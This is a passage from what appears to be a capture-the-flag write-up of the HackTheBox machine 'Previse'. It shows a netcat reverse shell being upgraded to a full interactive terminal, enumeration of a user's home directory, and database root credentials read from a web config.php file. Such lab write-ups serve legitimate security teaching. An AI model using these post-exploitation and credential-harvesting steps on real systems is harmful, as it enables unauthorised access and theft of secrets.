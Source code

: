 I’ll upgrade my shell using `script` (a nice alternative for `python` PTY module):

```

www-data@previse:/var/www/html$ script /dev/null -c bash
Script started, file is /dev/null
www-data@previse:/var/www/html$ ^Z
[1]+  Stopped                 nc -lnvp 443
oxdf@parrot$ stty raw -echo; fg
nc -lnvp 443
            reset
reset: unknown terminal type unknown
Terminal type? screen
www-data@previse:/var/www/html$ 

```

Now I have up arrow for history and tab completion, and Ctrl-C won’t kill the shell.

## Shell as m4lwhere

### Enumeration

#### Homedirs

There’s only one homedir, and it does have `user.txt`:

```

www-data@previse:/home/m4lwhere$ ls -la 
total 52
drwxr-xr-x 5 m4lwhere m4lwhere 4096 Jun 18 01:18 .
drwxr-xr-x 3 root     root     4096 May 25 14:59 ..
lrwxrwxrwx 1 root     root        9 Jun  6 13:04 .bash_history -> /dev/null
-rw-r--r-- 1 m4lwhere m4lwhere  220 Apr  4  2018 .bash_logout
-rw-r--r-- 1 m4lwhere m4lwhere 3771 Apr  4  2018 .bashrc
drwx------ 2 m4lwhere m4lwhere 4096 May 25 15:25 .cache
drwxr-x--- 3 m4lwhere m4lwhere 4096 Jun 12 10:09 .config
drwx------ 4 m4lwhere m4lwhere 4096 Jun 12 10:10 .gnupg
-rw-r--r-- 1 m4lwhere m4lwhere  807 Apr  4  2018 .profile
-rw-r--r-- 1 m4lwhere m4lwhere   75 May 31 19:19 .selected_editor
-rw------- 1 m4lwhere m4lwhere 7425 Jun 18 01:18 .viminfo
-rw-r--r-- 1 m4lwhere m4lwhere   75 Jun 18 01:18 .vimrc
-r-------- 1 m4lwhere m4lwhere   33 May 31 19:33 user.txt

```

I can’t read it yet, or anything else of use in here.

#### DB

The status page did mention MySQL. I’ll check out the web directory. There’s a `config.php`:

```

<?php

function connectDB(){
    $host = 'localhost';
    $user = 'root';
    $passwd = 'mySQL_p@ssw0rd!:)';
    $db = 'previse';
    $mycon = new mysqli($host, $user, $passwd, $db);
    return $mycon;
}

?>
```
